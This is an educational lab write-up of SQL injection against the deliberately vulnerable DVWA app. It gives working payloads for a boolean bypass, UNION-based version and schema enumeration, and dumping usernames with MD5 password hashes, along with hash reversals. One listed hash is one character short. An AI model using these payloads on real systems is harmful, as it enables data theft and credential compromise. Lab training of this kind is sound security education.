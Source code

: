 # Simulation 2 – SQL Injection on DVWA (Detailed Walkthrough & Explanation)

This simulation focuses on exploiting an SQL Injection vulnerability in the DVWA (Damn Vulnerable Web Application), a deliberately insecure web app used for learning web security. The objective was to understand how SQL Injection works, what kind of data an attacker can extract through it, and why it's a critical vulnerability. Throughout this simulation, we explored both the theory and the practical exploitation of a vulnerable SQL query.

---

We begin with a simple input box in DVWA under the `SQL Injection` module, which takes a user ID and fetches a user's details. Internally, the code likely runs a query such as:

```sql
SELECT first_name, surname FROM users WHERE user_id = '$id';
```

This means whatever we input in the field gets embedded directly into the SQL query. If we input `1`, the query becomes:

```sql
SELECT first_name, surname FROM users WHERE user_id = '1';
```

Which works as expected.

---

## SQL Injection Exploitation Begins

### 1. Bypass Logic with Boolean Injection

```plaintext
1' OR '1'='1'#
```

This payload closes the existing quote, inserts a condition that is always true (`'1'='1'`), and then comments out the rest using `#`. The query becomes:

```sql
SELECT first_name, surname FROM users WHERE user_id = '1' OR '1'='1' #';
```

**Result:** All rows from the `users` table are returned. This proves the site is vulnerable to SQL injection.

![Proves that SQL Injection is possible](../../screenshots/attack-simulation-2/all%20values.png)

*Figure 1: proof that the site is vulnerable to SQL injection*

---

### 2. Extract Database Version with UNION

```plaintext
1' UNION SELECT null, version()-- -
```

The `UNION SELECT` statement is used to join results from another query. Since the original query returns two columns (`first_name`, `surname`), we match that structure. `null` fills the first column, and `version()` fetches MySQL's current version.

**Result:**
```
Surname: 8.0.42-0ubuntu0.24.04.1
```

![Version Number](../../screenshots/attack-simulation-2/version.png)

*Figure 2: Version of MySQL*

This reveals the MySQL version in use.

---

### 3. Identify the Current Database Name

```plaintext
1' UNION SELECT null, database()-- -
```

This uses the MySQL function `database()` to retrieve the current DB's name.

**Result:**
```
Surname: dvwa
```

![Database Name](../../screenshots/attack-simulation-2/database.png)

*Figure 3: Database Name*

---

### 4. Enumerate Tables in the `dvwa` Database

Once we know the name of the current database (in this case, `dvwa`), the next step is to discover what tables exist inside it. In MySQL, this information is stored in a special system database called `information_schema`.

To list tables, we target the `information_schema.tables` table, and filter it using:

```sql
WHERE table_schema = 'dvwa'
```

This ensures we’re only seeing tables inside the DVWA database.

However, we can't just run `SELECT *` because the page we're injecting into only displays a **single record** at a time. So instead, we use the `LIMIT` clause to fetch one table at a time by its position (offset).

Here’s the full injection payload:

```plaintext
1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema='dvwa' LIMIT 0,1-- -
```

Once we get the first table name, we increment the `LIMIT` offset to get the next ones:

```plaintext
LIMIT 1,1
LIMIT 2,1
```

**Result:**
- First result: `guestbook`
- Second result: `users`

This method is called **manual enumeration**, and is often used when:
- The web app doesn’t show lists directly
- We're working without automated tools like `sqlmap`

This process is slow but gives you full control and deep understanding of the SQL injection’s inner workings.

![Table Name](../../screenshots/attack-simulation-2/Tablename.png)

*Figure 4: Table Name*

---

### 5. Enumerate Columns in the `users` Table

Next, we list all column names by querying `information_schema.columns`.

```plaintext
1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1-- -
```

And again, increase the `LIMIT` value to paginate:
```plaintext
LIMIT 1,1
LIMIT 2,1
```

![Column Name](../../screenshots/attack-simulation-2/Column%20Names.png)

*Figure 5: Column Name*

**Discovered Columns:**
- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

---

### 6. Extract Credentials from `users` Table

Finally, now that we know the column names, we dump actual data using:

```plaintext
1' UNION SELECT user, password FROM users-- -
```

**Extracted Results:**

| Username | Password Hash |
|----------|----------------|
| admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb  | e99a18c428cb38d5f260853678922e03 |
| 1337     | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo    | 0d107d09f5bbe40cade3de5c71e9b07 |
| smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |

![Credentials](../../screenshots/attack-simulation-2/Credentials.png)

*Figure 6: Credentials*

These are MD5 hashes. Some common reversals:
- `5f4dcc...` → `password`
- `e99a18...` → `abc123`
- `0d107d...` → `letmein`

---

## Key Terms and Concepts Explained

- **SQL Injection**: A vulnerability where attacker-controlled input is interpreted as SQL code.
- **UNION SELECT**: Combines results from multiple queries. Needs column count and data types to match.
- **information_schema**: A system database in MySQL that contains metadata about databases, tables, and columns.
- **LIMIT offset,count**: Used to fetch specific rows for enumeration.
- **MD5 Hash**: A cryptographic hash commonly used for passwords. Insecure and crackable.

---

## Summary

This simulation demonstrated the full SQL Injection lifecycle:
1. Discovering injection points
2. Bypassing logic with `OR '1'='1'`
3. Using UNION SELECT to exfiltrate:
   - Database version
   - Database name
   - Table names
   - Column names
   - Actual credential data
4. Interpreting hashes for credential reuse

The exercise shows how even a single vulnerable input can lead to total data leakage if queries are not properly sanitized. In real-world systems, this would be a catastrophic breach of confidentiality.